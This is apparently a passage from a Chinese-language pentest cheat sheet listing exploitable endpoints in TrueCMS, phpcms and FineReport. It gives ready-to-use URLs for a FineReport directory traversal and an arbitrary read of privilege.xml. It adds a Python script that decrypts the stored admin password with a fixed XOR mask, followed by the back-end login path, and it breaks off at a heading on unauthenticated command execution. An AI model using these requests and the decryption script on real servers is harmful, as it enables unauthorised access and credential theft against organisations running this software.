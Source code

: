 
### Truecms

`/truecms/gatewayController/gatewayLayout.do?dqdz=http://www.baidu.com`

`/TrueCMS/setup/login.do`

`/TrueCMS/WebService/InfoService?wsdl`

### phpcms

phpcms/phpcms

https://www.hacking8.com/bug-web/Phpcms/phpcms-v9-authkey%E7%88%86%E7%A0%B4%E5%88%B0rce.html

## OA漏洞

### FineReport

**目录遍历**

http://xxxxxxxxxxx:8080/ReportServer?op=fs\_remote\_design\&cmd=design\_list\_file\&file\_path=../ROOT/excel/tradeLog.csv\&currentUserName=admin\&currentUserId=1\&isWebReport=true

使用postman工具读取

**任意文件读取获取密码解密登录后台**

view-source:http://xxxxx:8080/ReportServer?op=chart\&cmd=get\_geo\_json\&resourcepath=privilege.xml

解密脚本：

```py
cipher = '___0022007c0039003b005100e3' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```

view-source:http://xxxx:8080/ReportServer?op=chart\&cmd=get\_geo\_json\&resourcepath=privilege.xml

得到的密码拿去登录后台数据决策系统

http://xxxxx:8080/ReportServer?op=fs\_load\&cmd=fs\_signin&\_=1646877801889

参考链接：

* https://mp.weixin.qq.com/s/ae8A8PGJCtr6uS11dRpzcw
* https://peiqiwiki.yuque.com/staff-ws572w/rwh2x6/ke9861

**帆软未授权命令执行**

* 影响版本
